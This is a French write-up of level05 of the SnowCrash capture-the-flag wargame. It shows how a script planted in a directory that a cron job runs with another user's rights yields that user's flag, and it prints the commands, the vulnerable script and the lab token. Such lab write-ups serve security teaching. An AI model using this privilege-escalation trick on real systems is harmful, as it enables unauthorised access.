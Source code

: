 Rien dans le home, en cherchant les fichiers appartenant à flag05, on trouve ceci :

```
level05@SnowCrash:~$ find / -user flag05 2>/dev/null
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
```

Voici le script :

```bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

Le script commence par regarder dans le répertoire **`/opt/openarenaserver`** et il boucle sur chaque fichier trouvé. Une limite de temps de 5 secondes est posée pour chaque exécution de script. Ensuite, il lance une nouvelle instance de bash et exécute le fichier (-x signifie qu’il affiche les commandes qu’il exécute). Enfin, il le supprime avec rm -f.

Il suffit donc de créer un script dans ce répertoire, de sorte à ce que lorsqu’il l’exécute, le script utilise la commande getflag, et retourne l’output dans un flag.txt :

```
echo "getflag > /tmp/flag.txt" > /opt/openarenaserver/script.sh
```

Le script **`/usr/sbin/openarenaserver`** semble être appelé à intervalles réguliers, ce qui suggère qu'il peut être contrôlé par un système comme **`cron`** ou un autre service similaire. Par conséquent, le **`flag.txt`** peut ne pas apparaître immédiatement après la création du script **`script.sh`**.

Et voici le flag retourné :

```
level05@SnowCrash:~$ cat /tmp/flag.txt
Check flag.Here is your token : viuaaale9huek52boumoomioc
```
